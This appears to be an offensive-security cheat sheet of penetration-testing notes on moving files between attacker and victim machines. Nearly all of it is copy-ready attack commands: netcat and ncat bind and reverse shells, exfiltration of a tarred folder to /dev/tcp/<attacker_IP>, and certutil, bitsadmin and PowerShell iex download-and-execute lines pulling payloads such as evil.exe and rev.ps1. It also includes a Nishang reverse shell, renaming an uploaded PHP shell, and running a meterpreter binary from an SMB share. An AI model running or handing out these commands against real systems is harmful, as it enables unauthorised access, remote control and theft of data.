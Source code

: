 # File transfer
**Netcat [nc]**
`nc -w 3 <target_ip> 1234 < LinEnum.sh` on target machine: `nc -l -p 1234 > LinEnum.sh`
`nc IP_ADDR PORT > OUTFILE` (run `nc -lvp PORT < infile` on attacking machine)

**Bob sets listener with shell:** 

`nc -lnvp 4444 -e cmd.exe` -> Alice connects: `nc -nv 10.0.0.22 4444`

**or Bob listens:**

`nc -nlvp 4444`  -> Alice sends her shell to Bob's listener: `nc -nv 10.0.0.22 4444 -e /bin/bash`

**Ncat - Bind shell [listener shares shell]**
`ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl`
`ncat -v 10.0.0.22 4444 --ssl`

**Ncat - Reverse shell [connector shares shell]**
`ncat --exec cmd.exe -vn 192.168.100.145 4444 --ssl`
`ncat -vnl 4444 --ssl --allow 192.168.100.146`



## Unix Transfer Methods

[https://unix.stackexchange.com/questions/47434/what-is-the-difference-between-curl-and-wget](https://unix.stackexchange.com/questions/47434/what-is-the-difference-between-curl-and-wget)

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
`wget http://IP_ADDR/file -O /path/to/where/you/want/file/to/go`
`curl http://attackerip/file > file`
`fetch http://IP_ADDR/file`
`ftp -s:input.txt`
`tftp -i get file /path/on/victim`



**Upload a file**
`curl --upload-file [-T] ./tecmint.txt https://transfer.sh/tecmint.txt`
And rename it to an executable file using the MOVE method with the curl command:
`curl -X MOVE --header Destination:http://$ip/leetshellz.php  http://$ip/leetshellz.txt`

**Nc**

`nc -vl 44444 > pick_desired_name_for_received_file`
`nc -N 10.11.12.10 44444 < /path/to/file/you/want/to/send`



### Exfil over TCP Socket with EBDIC and Base64

**On own attacker machine**
`nc -nlvp 80 > datafolder.tmp`

**On target machine**
`tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<attacker_IP>/80`

**On own machine**
`dd conv=ascii if=datafolder.tmp |base64 -d > datafolder.tar`
`tar xf datafolder.tar`

**SSH to own machine**
`tar zcf - /tmp/datafolder | ssh root@<attacker_IP > "cd /tmp; tar zxpf -"`
tar the contents of our /tmp/datafolder while sending the output to (-) and then SSH it over to our attacker system



## Windows Transfer Methods

- https://sushant747.gitbooks.io/total-oscp-guide/transfering_files_to_windows.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md



### Certutil

There are many ways to copy over files. I found **certutil.exe** to be the most reliable across Windows editions. For example;
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil
`cmd.exe /c "certutil[.exe] -urlcache -split -f http://$IP/Powerless.bat [Powerless.bat]"`
`certutil.exe -urlcache -split -f "http://10.11.0.126/win32revtcp.exe" [shell.exe]`

### Bitsadmin

`bitsadmin /transfer download /priority normal http://IP_ADDR/file C:\output\path` (Works on Windows 7/Windows Server 2000+)
`bitsadmin /transfer download /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe`

### Python

``` python 
C:\Python2.7\python.exe -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/rs_powershell.exe', '/temp/rs_powershell.exe');" 
```



### FTP

`Python ftp\ - python -m pyftpdlib -w -p 21`
the best way i've found for file transfer on MOST machines is to just use plain old ftp. just about every 
windows machine has it installed by default, and you can get a really good quick and easy python script 
 "`pip install pyftpdlib` or `pip3 install pyftpdlib`" once pyftpdlib is installed, just run it in the directory you want to download files to with "`python -m pyftpdlib -w -p 21`" then on your client machine type ftp -A your.ip.add.ress (the -A is for Anonymous, these shells will hang on user/password entry sometimes, don't use this option with linux machines though) and you're ready to transfer files!
`python -m pyftpdlib -w -p 21` or `python3 -m pyftpdlib -w`

`ftp -s:input.txt`
`tftp -i 10.11.0.126 get nc.exe`



### HTTP Server

`python3 -m http.server`
`python -m SimpleHTTPServer`



## Powershell - [download is in-memory]

- `C:\> powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile(‘http://IP_ADDR:PORT/FILE','C:\Users\user\AppData\Local\ack.exe'));}”`
- `PS C:\> iex (New-Object Net.Webclient).DownloadString(“http://attacker_url/script.ps1")`
- `C:\> powershell iex (New-Object Net.Webclient).DownloadString(‘http://attacker_url/script.ps1’)`
- `powershell -exec bypass -c (New-Object Net.WebClient).DownloadString(\"http://10.11.0.84/rev.ps1\") | IEX; Invoke-Powershell`



#### DownloadFile method

``` Powershell
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_URL/payload.exe"
PS C:\> $local_file = "C:\programdata\payload.exe"
PS C:\> $downloader.DownloadFile($payload,$local_file)
```



#### Offsec

```powershell
C:\Users\Offsec> echo $storageDir = $pwd > wget.ps1
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```



#### Nishang

`iex (New-Object Net.Webclient).DownloadString("http://attacker_url/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAdress <listener IP> -Port 4444`



#### Shares & Data Exfiltration

``` bash
net use \\<ip> /user:DOMAIN\username password
net view \\<ip>
dir /s \\<host>\SHARE - recursive search
dir /s /Q /O:-D /T:A \\<hostname>\SHARE - find files
xcopy /s /E \\<host>\SHARE\dir c:\blah - Xcopy recursively files &
```



**SMB Server**
`python /usr/share/doc/python-impacket/examples/smbserver.py files /root/Documents/oscp/files/windows-binaries`

**To put/get files:**
`copy \\10.11.0.126\files\nc.exe` .
`copy C:\bank-account.zip \\10.11.0.126\files\`

**Execute a file from SMB server**
`\\10.9.122.8\ROPNOP\met8888.exe`